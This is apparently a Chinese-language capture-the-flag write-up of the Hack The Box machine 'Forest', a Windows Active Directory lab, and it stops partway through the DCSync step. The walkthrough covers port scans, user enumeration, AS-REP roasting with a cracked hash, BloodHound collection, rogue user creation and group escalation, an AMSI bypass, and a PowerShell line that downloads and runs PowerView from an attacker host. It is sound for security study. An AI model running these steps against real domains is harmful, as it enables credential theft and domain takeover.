



# README

## Nmap

nmap扫描结果：

```shell
18:16:37 › sudo nmap -T4 -A -v 10.10.10.161
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 18:45 CST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 18:45
Completed NSE at 18:45, 0.00s elapsed
Initiating NSE at 18:45
Completed NSE at 18:45, 0.00s elapsed
Initiating NSE at 18:45
Completed NSE at 18:45, 0.00s elapsed
Initiating Ping Scan at 18:45
Scanning 10.10.10.161 [4 ports]
Completed Ping Scan at 18:45, 0.68s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:45
Completed Parallel DNS resolution of 1 host. at 18:45, 0.04s elapsed
Initiating SYN Stealth Scan at 18:45
Scanning loaclhost (10.10.10.161) [1000 ports]
Discovered open port 53/tcp on 10.10.10.161
Discovered open port 139/tcp on 10.10.10.161
Discovered open port 135/tcp on 10.10.10.161
Discovered open port 445/tcp on 10.10.10.161
Discovered open port 389/tcp on 10.10.10.161
Discovered open port 464/tcp on 10.10.10.161
Discovered open port 88/tcp on 10.10.10.161
SYN Stealth Scan Timing: About 25.57% done; ETC: 18:47 (0:01:30 remaining)
Discovered open port 593/tcp on 10.10.10.161
SYN Stealth Scan Timing: About 47.07% done; ETC: 18:47 (0:01:09 remaining)
Discovered open port 636/tcp on 10.10.10.161
Discovered open port 3268/tcp on 10.10.10.161
SYN Stealth Scan Timing: About 71.03% done; ETC: 18:47 (0:00:37 remaining)
Discovered open port 3269/tcp on 10.10.10.161
Completed SYN Stealth Scan at 18:47, 145.19s elapsed (1000 total ports)
Initiating Service scan at 18:47
Scanning 11 services on loaclhost (10.10.10.161)
Completed Service scan at 18:48, 59.84s elapsed (11 services on 1 host)
Initiating OS detection (try #1) against loaclhost (10.10.10.161)
Retrying OS detection (try #2) against loaclhost (10.10.10.161)
Retrying OS detection (try #3) against loaclhost (10.10.10.161)
Initiating Traceroute at 18:49
Completed Traceroute at 18:49, 0.89s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:49
Completed Parallel DNS resolution of 1 host. at 18:49, 0.06s elapsed
NSE: Script scanning 10.10.10.161.
Initiating NSE at 18:49
Completed NSE at 18:49, 38.33s elapsed
Initiating NSE at 18:49
Completed NSE at 18:51, 103.53s elapsed
Initiating NSE at 18:51
Completed NSE at 18:51, 0.00s elapsed
Nmap scan report for loaclhost (10.10.10.161)
Host is up (0.76s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-09-11 10:54:41Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (96%), Microsoft Windows Server 2016 (95%), Microsoft Windows Server 2008 SP1 (94%), Microsoft Windows 10 (93%), Microsoft Windows 10 1507 (93%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows 10 1511 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2012 R2 Update 1 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.010 days (since Mon Sep 11 18:37:39 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m48s, deviation: 4h02m31s, median: 6m47s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-09-11T03:55:54-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2023-09-11T10:55:53
|_  start_date: 2023-09-11T10:44:47

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   877.17 ms loaclhost (10.10.14.1)
2   879.07 ms loaclhost (10.10.10.161)

NSE: Script Post-scanning.
Initiating NSE at 18:51
Completed NSE at 18:51, 0.00s elapsed
Initiating NSE at 18:51
Completed NSE at 18:51, 0.00s elapsed
Initiating NSE at 18:51
Completed NSE at 18:51, 0.00s elapsed
Read data files from: /opt/homebrew/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 366.54 seconds
           Raw packets sent: 1523 (70.136KB) | Rcvd: 1146 (47.880KB)

```


```shell
18:51:24 › sudo nmap -p 445 --script=vuln 10.10.10.161
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 18:53 CST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for loaclhost (10.10.10.161)
Host is up (0.74s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Nmap done: 1 IP address (1 host up) scanned in 80.68 seconds
```

```shell
18:54:31 › sudo nmap -p 139 --script=vuln 10.10.10.161
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 18:55 CST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for loaclhost (10.10.10.161)
Host is up (0.51s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Host script results:
|_samba-vuln-cve-2012-1182: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!

Nmap done: 1 IP address (1 host up) scanned in 79.04 seconds

```


一开始的端口扫描不全，没有扫到5985端口：

```shell
19:58:08 › sudo nmap -sS -T4 10.10.10.161 -p0-10000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 19:58 CST
Nmap scan report for loaclhost (10.10.10.161)
Host is up (0.37s latency).
Not shown: 9988 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
9389/tcp open  adws
```

5985端口：https://www.freebuf.com/sectool/210479.html

## 88端口 kerberos

```shell
19:06:05 › ./kerbrute_darwin_amd64 userenum --dc 10.10.10.161 -d htb.local /Users/feng/many-ctf/fuzzdb-master/wordlists-user-passwd/names/namelist.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/11/23 - Ronnie Flathers @ropnop

2023/09/11 19:06:21 >  Using KDC(s):
2023/09/11 19:06:21 >  	10.10.10.161:88

2023/09/11 19:06:25 >  [+] VALID USERNAME:	 administrator@htb.local
2023/09/11 19:09:57 >  [+] VALID USERNAME:	 john@htb.local
2023/09/11 19:14:25 >  Done! Tested 1907 usernames (2 valid) in 484.077 seconds

```

## 389端口 Ldap

```shell
ldapsearch -h 10.10.10.161 -p 389 -x -b "DC=htb,DC=local" -s base
ldapsearch -h 10.10.10.161 -p 389 -x -b "DC=htb,DC=local" 
```


## 135端口 rpc

```shell
#使用空身份验证连接。空身份验证有助于在使用时枚举域和用户，这是 Windows Server 2003 和 2008 中的一项功能。在以后的版本中，它在进行全新安装时被删除。从以前版本的 Windows Server 升级时，该功能不会被禁用，因为用户可能正在使用此功能。
rpcclient -U "" -N 10.10.10.161

#枚举用户
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[john] rid:[0x2581]


#列出组
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```

存在用户如下：

```shell
sebastien
lucinda
svc-alfresco
andy
mark
santi
john
```


## AS-REP Roasting

```shell
19:38:00 › python3.10 GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -usersfile user.txt -request -format hashcat
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:7dcb38442fac867a4a9a31c70ed2e4a7$0cdab0ae7819a4ce77387ef0736c517a67022079f261e0936d7d56d9593ed6f638a805dd92f30277db4575bcc0a366d0c1b5a2dbf6e3f2cee5f9cb41c066b287fd6db7d74232657db08a78872112395d15d3a4047d44a04497620299c10b25e23f3eb8b251daa7bacc23e1ee546f0c1545c538d1cb969cbd6ad62b30781be450b297cae5f1139390291543f62223d46ae66af4574aa2dafa2b8f88111118247ce9dd75b4a8c70de3f0ac77f9f69d10767f8b51275ded02e1c0bbb23d8b1303ef04d4bd6fdc1e31be46b1164b1da31cbbdd797fdca5f5c8139dac2edab1a236cff07775ad7b82
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User john doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```shell
hashcat -m 18200 hash.txt /Users/feng/many-ctf/rockyou.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

* Device #2: Apple's OpenCL drivers (GPU) are known to be unreliable.
             You have been warned.

METAL API (Metal 263.8)
=======================
* Device #1: Apple M1 Pro, 10880/21845 MB, 14MCU

OpenCL API (OpenCL 1.2 (Apr 19 2022 18:44:44)) - Platform #1 [Apple]
====================================================================
* Device #2: Apple M1 Pro, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 100c

Host memory required for this attack: 122 MB

Dictionary cache hit:
* Filename..: /Users/feng/many-ctf/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$svc-alfresco@HTB.LOCAL:7dcb38442fac867a4a9a31c70ed2e4a7$0cdab0ae7819a4ce77387ef0736c517a67022079f261e0936d7d56d9593ed6f638a805dd92f30277db4575bcc0a366d0c1b5a2dbf6e3f2cee5f9cb41c066b287fd6db7d74232657db08a78872112395d15d3a4047d44a04497620299c10b25e23f3eb8b251daa7bacc23e1ee546f0c1545c538d1cb969cbd6ad62b30781be450b297cae5f1139390291543f62223d46ae66af4574aa2dafa2b8f88111118247ce9dd75b4a8c70de3f0ac77f9f69d10767f8b51275ded02e1c0bbb23d8b1303ef04d4bd6fdc1e31be46b1164b1da31cbbdd797fdca5f5c8139dac2edab1a236cff07775ad7b82:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:7dcb38442fac86...ad7b82
Time.Started.....: Mon Sep 11 19:41:21 2023, (0 secs)
Time.Estimated...: Mon Sep 11 19:41:21 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/Users/feng/many-ctf/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 16146.3 kH/s (11.82ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4128768/14344384 (28.78%)
Rejected.........: 0/4128768 (0.00%)
Restore.Point....: 3670016/14344384 (25.59%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: sn7792118 -> ruddrooney
Hardware.Mon.SMC.: Fan0: 40%, Fan1: 40%
Hardware.Mon.#1..: Util: 36%

Started: Mon Sep 11 19:41:08 2023
Stopped: Mon Sep 11 19:41:22 2023

```

得到svc-alfresco的密码为s3rvice。


## BloodHound

感觉很有坑，john用户删掉,forest.HTB.LOCAL删掉就和wp里的一样了。

将SharpHound.exe上传后，执行，然后将执行的结果.zip下载下来：

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload SharpHound.exe

Info: Uploading /Users/feng/ctftools/Bloodhound/BloodHound-darwin-arm64/BloodHound/Collectors/SharpHound.exe to C:\Users\svc-alfresco\Documents\SharpHound.exe

Data: 1395368 bytes of 1395368 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/11/2023   4:13 AM         791191 PowerView.ps1
-a----        9/11/2023   8:12 PM        1046528 SharpHound.exe
-a----        9/11/2023   3:47 AM        1391826 SharpHound.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ./SharpHound.exe
2023-09-11T20:14:03.0316761-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-09-11T20:14:03.2035095-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-11T20:14:03.2191572-07:00|INFORMATION|Initializing SharpHound at 8:14 PM on 9/11/2023
2023-09-11T20:14:03.5003889-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2023-09-11T20:14:03.6412294-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-11T20:14:04.1566415-07:00|INFORMATION|Beginning LDAP search for htb.local
2023-09-11T20:14:04.2972645-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-09-11T20:14:04.2972645-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-09-11T20:14:34.2817054-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
2023-09-11T20:14:49.6411107-07:00|INFORMATION|Consumers finished, closing output channel
2023-09-11T20:14:49.7036056-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-09-11T20:14:50.5943765-07:00|INFORMATION|Status: 162 objects finished (+162 3.521739)/s -- Using 48 MB RAM
2023-09-11T20:14:50.5943765-07:00|INFORMATION|Enumeration finished in 00:00:46.4524692
2023-09-11T20:14:50.7817293-07:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-09-11T20:14:50.8442532-07:00|INFORMATION|SharpHound Enumeration Completed at 8:14 PM on 9/11/2023! Happy Graphing!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/11/2023   8:14 PM          18914 20230911201448_BloodHound.zip
-a----        9/11/2023   8:14 PM          19676 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        9/11/2023   4:13 AM         791191 PowerView.ps1
-a----        9/11/2023   8:12 PM        1046528 SharpHound.exe
-a----        9/11/2023   3:47 AM        1391826 SharpHound.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20230911201448_BloodHound.zip

Info: Downloading C:\Users\svc-alfresco\Documents\20230911201448_BloodHound.zip to 20230911201448_BloodHound.zip

Info: Download successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```


输入SVC-ALFRESCO@HTB.LOCAL选择Find Shortest Paths to Domain Admins：





SVC-ALFRESCO是SERVICE ACCOUNTS组的成员， SERVICE ACCOUNTS@HTB.LOCAL组是PRIVILEGED IT ACCOUNTS@HTB.LOCAL的成员，PRIVILEGED IT ACCOUNTS@HTB.LOCAL是ACCOUNT OPERATORS@HTB.LOCAL的成员，而ACCOUNT OPERATORS@HTB.LOCAL 组的成员对 EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL.组有GenericAll权限，即完全控制：

```shell
Full control of a group allows you to directly modify group membership of the group.

There are at least two ways to execute this attack. The first and most obvious is by using the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" harmj0y /add /domain). See the opsec considerations tab for why this may be a bad idea. The second, and highly recommended method, is by using the Add-DomainGroupMember function in PowerView. This function is superior to using the net.exe binary in several ways. For instance, you can supply alternate credentials, instead of needing to run a process as or logon as the user with the AddMember privilege. Additionally, you have much safer execution options than you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into your agent session or into a PowerShell instance at the console. You may need to authenticate to the Domain Controller as a member of ACCOUNT OPERATORS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainGroupMember, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running a process as ACCOUNT OPERATORS@HTB.LOCAL:

Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

Get-DomainGroupMember -Identity 'Domain Admins'
```

向EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL组中添加用户：

```shell
net user feng feng123! /add /domain#创建用户
net group    #查看用户组
net group 'Exchange Windows Permissions' test  /add /domain  #将用户添加到用户组
net localgroup 'Remote Management Users' feng  /add #加入远程连接组

#查看feng用户信息
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user feng /domain
User name                    feng
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/11/2023 11:18:15 PM
Password expires             Never
Password changeable          9/12/2023 11:18:15 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.

```



EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL组对HTB.LOCAL具有**WriteDacl**：

```shell
The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL

With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

To abuse WriteDacl to a domain object, you may grant yourself DCSync privileges.

You may need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Then, use Add-DomainObjectAcl, optionally specifying $Cred if you are not already running a process as EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL:

Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
Once you have granted yourself this privilege, you may use the mimikatz dcsync function to dcsync the password of arbitrary principals on the domain

lsadump::dcsync /domain:testlab.local /user:Administrator
Cleanup can be done using the Remove-DomainObjectAcl function:

Remove-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
You can also abuse this without using Windows-based tooling if you are operating from a Linux host. DCSync.py from n00py will let you authenticate with either a plaintext password, NT hash, or kerberos ticket:

To grant the "n00py" user DCSync privileges, authenticating as the user "n00py" with the password "Password123":

./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00pyAdministrator:Password123
Source: https://github.com/n00py/DCSync
```

因此可以使用DCSync攻击：给feng用户赋予DCSync的权限，然后利用secretsdump.py导出所有用户哈希。

下载Powerview脚本，利用evil-winrm的Bypass-4MSI上传：


```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(New-Object Net.webclient).downloadstring('http://10.10.14.14:39554/PowerView.ps1')
```


然后授予用户DCSync权限：

```shell
$SecPassword = ConvertTo-SecureString 'feng123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\feng', $SecPassword)
Import-Module .\PowerView.ps1
